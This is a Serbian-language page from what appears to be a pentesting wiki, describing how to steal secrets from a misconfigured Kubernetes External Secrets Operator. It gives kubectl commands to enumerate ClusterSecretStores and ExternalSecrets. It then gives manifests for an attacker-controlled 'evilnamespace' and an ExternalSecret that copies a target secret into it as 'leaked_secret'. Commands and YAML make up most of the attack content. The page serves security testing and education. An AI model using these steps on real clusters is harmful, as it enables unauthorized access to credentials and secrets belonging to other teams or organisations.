 # External Secret Operator

{{#include ../../banners/hacktricks-training.md}}

**Originalni autor ove stranice je** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Ova stranica daje nekoliko saveta o tome kako možete ukrasti tajne iz pogrešno konfigurisanog ESO-a ili aplikacije koja koristi ESO za sinhronizaciju svojih tajni.

## Odricanje od odgovornosti

Tehnika prikazana u nastavku može raditi samo kada su ispunjeni određeni uslovi. Na primer, zavisi od zahteva potrebnih da se dozvoli sinhronizacija tajne u prostoru imena koji posedujete / kompromitujete. Morate to sami da otkrijete.

## Preduslovi

1. Pristup u kubernetes / openshift klasteru sa administratorskim privilegijama na prostoru imena
2. Pristup za čitanje na najmanje ExternalSecret na nivou klastera
3. Utvrdite da li su potrebne oznake / anotacije ili članstvo u grupi koje omogućavaju ESO-u da sinhronizuje vašu tajnu. Ako imate sreće, možete slobodno ukrasti bilo koju definisanu tajnu.

### Prikupljanje informacija o postojećem ClusterSecretStore-u

Pretpostavljajući da imate korisnika koji ima dovoljno prava da pročita ovaj resurs; počnite tako što ćete prvo nabrojati postojeće _**ClusterSecretStores**_.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeracija

Pretpostavimo da ste pronašli ClusterSecretStore nazvan _**mystore**_. Nastavite sa enumeracijom njegovog povezanog externalsecret.
```sh
kubectl get externalsecret -A | grep mystore
```
_Ovaj resurs je ograničen na namespace, tako da, osim ako već ne znate koji namespace da tražite, dodajte opciju -A da biste pretražili sve namespace-ove._

Trebalo bi da dobijete listu definisanih externalsecret. Pretpostavimo da ste pronašli externalsecret objekat pod nazivom _**mysecret**_ definisan i korišćen u namespace-u _**mynamespace**_. Sakupite još informacija o tome kakvu vrstu tajne sadrži.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Sastavljanje delova

Odavde možete dobiti ime jednog ili više imena tajni (kao što je definisano u resursu Secret). Dobićete izlaz sličan:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Do sada smo dobili:

- Ime ClusterSecretStore
- Ime ExternalSecret
- Ime tajne

Sada kada imamo sve što nam je potrebno, možete kreirati ExternalSecret (i eventualno zakrpititi/kreirati novi Namespace kako biste ispunili preduslove potrebne za sinhronizaciju vaše nove tajne):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Nakon nekoliko minuta, ako su ispunjeni uslovi za sinhronizaciju, trebali biste moći da vidite procurenu tajnu unutar vašeg imenskog prostora.
```sh
kubectl get secret leaked_secret -o yaml
```
## Reference

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}



{{#include ../../banners/hacktricks-training.md}}
